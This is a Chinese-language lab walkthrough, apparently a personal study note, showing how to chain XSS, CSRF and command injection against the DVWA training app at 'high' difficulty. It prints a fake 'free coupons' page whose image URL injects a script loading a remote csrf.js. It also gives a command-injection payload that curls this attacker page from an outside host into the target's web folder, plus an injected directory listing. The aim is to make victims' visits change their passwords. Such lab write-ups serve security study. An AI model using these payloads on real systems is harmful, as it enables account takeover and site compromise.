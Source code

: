 ### CSRF + Command injection + 替換頁面

這部分跟上傳新的惡意頁面差不多，只是把正常網頁替換成偷加料的網頁

先準備好一個偽裝過的頁面，裡面有之前使用的惡意連結 (透過 XSS 注入會執行 CSRF 的遠端 js file)

`fakepage.html`

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>test CSRF - high</title>
</head>
<body>
You got free coupons 💸💸💸
<img src="http://dvwa.localtest/vulnerabilities/xss_d/?default=English<script src='http://127.0.0.1:8080/csrf.js'>console.log(document.cookie)</script>&default=English#">
</body>
</html>
```

`http://127.0.0.1:8080/fakepage.html` 是駭客的惡頁面遠端位置

我們先透過 comand injection 下載該檔案

```bash
'' || curl "http://127.0.0.1:8080/fakepage.html" > ../../hackable/fakepage.html
```

這樣一來目標網站上就有我們偽造的惡意頁面了，雖然之前因為 `-` 被過濾的關係，檔名發生了一些改變，因此惡意頁面的檔案不能有 `-`

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/3b7db02b-fd00-4c18-8d9f-50afa5eeef71/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070423Z&X-Amz-Expires=86400&X-Amz-Signature=130c7cd021b4690e8f0c03155794ba8bef9269c46ff46224414fc9d88de9fac2&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)
上圖可以看出透過 command injection 下指令下載檔案時，檔案名稱中的某些字元可能會被跳脫或移除，所以只能用有限的檔案命名組合，避開特殊字元

將惡意頁面檔案名稱改為 `fakepage.html` 就能正常被下載了
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/e029562b-d366-4435-8dfa-7219fbcaea5c/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070516Z&X-Amz-Expires=86400&X-Amz-Signature=e34f730cffe970f5056c5fd6462d87d54f893f67e5c6ee51778372a3ff222210&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

偷渡成功了

```bash
'' || ls ../../hackable
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b76df93c-50d2-42c1-a5e8-7315e08de915/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070549Z&X-Amz-Expires=86400&X-Amz-Signature=0173cba991a69ed5156766ca713c6c985b0ac376482b6051962031104be04e18&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)


用下載或上傳檔案的方式可以確保惡內容令或 payload 不被阻斷，檢查一下檔案內容應該是完整的
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/a2fb6294-bfb2-4068-8c0a-3f10c2b401d6/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070709Z&X-Amz-Expires=86400&X-Amz-Signature=cbbc3737c48becb1da5f2e95c327eff559ccbf86cbd8f06474db7dfc60eb699e&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

最後只要讓受害者前往該頁面就可以觸發 CSRF 攻擊更改密碼了

```html
http://dvwa.localtest/hackable/fakepage.html
```

⚠️ 要記得先設定預設難度為 high 而非 impossible，避免造成 csrf.js 的 CSRF 攻擊失效

